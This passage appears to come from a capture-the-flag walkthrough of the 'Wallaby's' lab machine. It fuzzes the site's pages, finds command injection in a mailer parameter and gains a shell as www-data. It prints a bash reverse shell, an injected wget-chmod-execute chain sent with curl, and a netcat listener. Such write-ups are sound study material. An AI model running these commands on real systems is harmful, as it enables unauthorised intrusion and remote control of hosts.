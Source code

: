 ```console
root@parrot:~$ wfuzz -c --hc 400,403,404 --hh 897 -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.142.128:60080/?page=FUZZ
...
000003075:   200        29 L     102 W      1083 Ch     "mailer" 
...
```

Looking at the source code for the request `http://192.168.142.128:60080/?page=mailer`, there is a comment that specifies where the message should be placed to **wallaby**.

![](/assets/images/wallabys/screenshot-5.png)

Testing the mail parameter, I discovered that it is vulnerable to Remote Command Execution.

![](/assets/images/wallabys/screenshot-6.png)

## Exploitation
### Remote Command Execution

Create a bash reverse shell.

```console
root@parrot:~$ echo "bash -c 'bash -i >&/dev/tcp/192.168.142.1/443 0>&1'" > rev.sh
```

Start a web server with php.

```console
root@parrot:~$ php -S 192.168.142.1:80 
```

Set up a netcat listener and perform via curl the following request.

```console
root@parrot:~$ curl -s "http://192.168.142.128:60080/?page=mailer&mail=$(php -r "echo urlencode('wget -O /tmp/z.sh http://192.168.142.1/rev.sh; chmod +x /tmp/z.sh; /tmp/z.sh');")"
```

The initial access was obtained as **www-data** user.

```console
root@parrot:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.142.1] from (UNKNOWN) [192.168.142.128] 43084
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ python3 -c "import pty; pty.spawn('/bin/bash')"
<ml$ python3 -c "import pty; pty.spawn('/bin/bash')"                         
www-data@ubuntu:/var/www/html$
```
